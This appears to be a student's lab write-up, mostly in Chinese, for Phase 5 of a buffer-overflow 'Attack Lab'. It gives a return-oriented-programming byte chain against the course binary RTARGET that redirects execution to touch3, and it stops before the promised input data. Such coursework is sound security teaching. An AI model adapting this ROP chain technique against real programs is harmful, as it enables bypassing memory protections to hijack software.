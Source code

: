 **pahse4 pass**

## level5

>Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now.

你已经得到 95 分，如果你还有其他重要的事，就可以现在停下去做你该做的了。

\>_< 很有趣的一段话，在保证学生学分的同时，不给予太大的压力。是一个十分人性的设计。

>Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie. That may not seem significantly more difficult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase 5 counts for only 5 points, which is not a true measure of the effort it will require. Think of it as more an extra credit problem for those who want to
go beyond the normal expectations for the course.

该 phase 要求与 phase3 相同，不过就是程序开启了栈不可执行，与栈地址随机化，但是实际上并不难

通过 ROPgadget 发现 gadget `0x0000000000401a06 : mov rax, rsp ; ret`

构造出这样的字节序列写入 expolit.txt 中

```
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 /* padding */

1b 14 40 00 00 00 00 00 /* pop rdi; ret */
00 00 00 00 00 00 00 00
83 13 40 00 00 00 00 00 /* pop rsi ; ret */
00 5A 60 00 00 00 00 00 /* 0x605A00 */

30 0D 40 00 00 00 00 00 /* 0x400D30 */
/* read(0, *0x605A00, number x) */

1b 14 40 00 00 00 00 00 /* pop rdi; ret */
00 5A 60 00 00 00 00 00 /* 0x605A00 bss 段区域*/

fa 18 40 00 00 00 00 00 /* address of touch3 */

```

这里做一个说明 在 `getbuf` 函数中，读取完输入之后 `rdx` 寄存器是一个地址，对应 read 语句参数中 `number x` 远远大于我们所需要输入数据的量，所以这里 的 read 读取数据会直到遇见 `\n` 结束

将如下数据写入 in.txt 文件中
